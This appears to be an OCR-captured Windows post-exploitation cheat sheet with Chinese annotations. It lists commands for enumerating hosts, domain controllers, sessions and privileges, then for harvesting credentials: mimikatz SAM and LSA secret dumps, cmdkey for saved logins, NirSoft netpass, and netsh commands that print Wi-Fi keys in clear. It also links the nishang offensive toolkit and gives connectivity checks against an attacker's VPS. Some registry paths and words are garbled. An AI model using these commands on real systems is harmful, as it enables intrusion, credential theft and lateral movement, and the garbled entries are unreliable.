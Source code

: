 systeminfo

tasklist /svc

tasklist /S ip /U domain\username /P /V 查看远程计算机 tasklist

net localgroup administrators && whoami 查看当前是不是属于管理组

netstat -ano

nltest /dclist:xx  查看域控

whoami /all 查看 Mandatory Label uac 级别和 sid 号

net sessoin 查看远程连接 session (需要管理权限)

net share     共享目录

cmdkey /l   查看保存登陆凭证

echo %logonserver%  查看登陆域

spn –l administrator spn 记录

set  环境变量

dsquery server - 查找目录中的 AD DC/LDS 实例

dsquery user - 查找目录中的用户

dsquery computer 查询所有计算机名称 windows 2003

dir /s *.exe 查找指定目录下及子目录下没隐藏文件

arp -a
发现远程登录密码等密码 netpass.exe  下载地址：

https://www.nirsoft.net/utils/network_password_recovery.html获取 window vpn 密码：
mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit  wifi 密码：
netsh wlan show profile 查处 wifi 名

netsh wlan show profile WiFi-name key=clear 获取对应 wifi 的密码ie 代理
reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet

Settings" /v ProxyServer

reg query "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet Settings"pac 代理
reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet

Settings" /v AutoConfigURL   //引子 t0stmailpowershell-nishang
https://github.com/samratashok/nishang
其他常用命令
ping       icmp 连通性

nslookup www.baidu.com vps-ip dns 连通性

dig @vps-ip www.baidu.com

curl vps:8080  http 连通性

tracert
